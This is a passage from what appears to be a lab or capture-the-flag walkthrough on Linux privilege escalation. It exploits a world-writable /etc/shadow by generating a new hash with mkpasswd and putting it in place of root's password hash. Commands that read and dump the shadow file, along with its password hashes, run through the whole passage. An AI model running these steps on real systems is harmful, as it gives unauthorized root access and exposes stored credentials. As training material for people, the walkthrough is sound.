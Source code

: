 ```bash
mkpasswd -m sha-512 newpasswordhere
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

```bash
su root
```

**Remember to exit out of the root shell before continuing!**

## #1 - Read and follow along with the above.

Permissions are too permissive:

```bash
$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```

As we can see above, the `/etc/shadow` file is writeable by anyone, meaning that we can change the root's password.

```bash
user@debian:/tmp$ mkpasswd -m sha-512 Try_H4ck#M3
$6$bu3aRTYBC3Y.Gw$MmzIeurk34HKfeSSs6TJ5yzyR5jTxlt6YKCq4dQ76R3BBm3rdcihkzy1Anehp5RDp847cgweMKRifq4NYlNbk.
```

Now edit the root's hash to replace the existing hash with the one above:

```bash
user@debian:/tmp$ cat /etc/shadow
root:$6$bu3aRTYBC3Y.Gw$MmzIeurk34HKfeSSs6TJ5yzyR5jTxlt6YKCq4dQ76R3BBm3rdcihkzy1Anehp5RDp847cgweMKRifq4NYlNbk.:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

